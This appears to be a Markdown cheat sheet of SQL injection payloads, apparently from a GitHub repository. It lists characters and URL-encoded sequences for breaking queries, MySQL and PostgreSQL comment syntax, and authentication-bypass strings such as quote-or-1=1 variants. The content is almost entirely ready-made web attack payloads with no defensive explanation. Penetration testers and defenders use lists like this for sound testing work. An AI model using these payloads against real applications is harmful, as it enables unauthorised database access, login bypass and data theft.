 <h1 align='center'> Query Break</h1>

```sql
 [Nothing]
'
%27
"
%22
#
%23
;
%3B
)
`
')
")
`)
'))
"))
`))
Wildcard (*)
&apos;  # required for XML content
'/*
'/\*
';--
*/
```

- **`Multiple encoding`**
```sql
%%2727
%25%27
```

<h1 align='center'>Query Join</h1>

- MySQL
```sql
#comment
-- comment     [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */
```

- PostgreSQL
```sql
--comment
/*comment*/
```

- more ways to break
```sql
' -- -
'--'
"--"
') or true--
" or "1"="1
" or "1"="1"#
" or "1"="1"/*
"or 1=1 or ""="
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"#
") or ("1"="1"/*
") or "1"="1
") or "1"="1"--
") or "1"="1"#
") or "1"="1"/*
```

